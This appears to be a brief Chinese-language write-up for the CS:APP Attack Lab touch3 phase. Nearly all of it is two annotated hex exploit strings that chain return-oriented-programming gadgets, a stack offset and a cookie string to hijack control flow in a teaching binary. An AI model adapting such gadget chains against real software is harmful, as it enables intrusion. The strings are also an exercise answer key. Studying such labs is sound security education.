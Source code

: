 ##1 整体思路

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
70 25 40 00 00 00 00 00     // popq %rcx
5f 00 00 00 00 00 00 00     // offset
9f 18 40 00 00 00 00 00     // lea    (%rsp,%rcx,1),%rbx
b7 18 40 00 00 00 00 00     // mov    %rbx,%rdi
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00

发现上述没有ret指令，导致无法运行到栈的下一个地址


c2 a9 20 32 30 31 39 20
43 6f 70 79 72 69 67 68
74 20 48 61 6b 75 6c 61
2c 20 43 43 20 42 59 2d
4e 43 2d 53 41 20 00 00             /* 40 bytes of trash            */
cc 19 40 00 00 00 00 00             /* popq   %rax                  */
20 00 00 00 00 00 00 00             /* the real value of offset     */
42 1a 40 00 00 00 00 00             /* movl   %eax,%edx             */
34 1a 40 00 00 00 00 00             /* movl   %edx,%ecx             */
13 1a 40 00 00 00 00 00             /* movl   %ecx,%esi             */
06 1a 40 00 00 00 00 00             /* movq   %rsp,%rax             */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
d6 19 40 00 00 00 00 00             /* leaq   (%rdi,%rsi,1),%rax    */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
fa 18 40 00 00 00 00 00             /* the address of touch3        */
35 39 62 39 39 37 66 61             /* the value of string          */
00
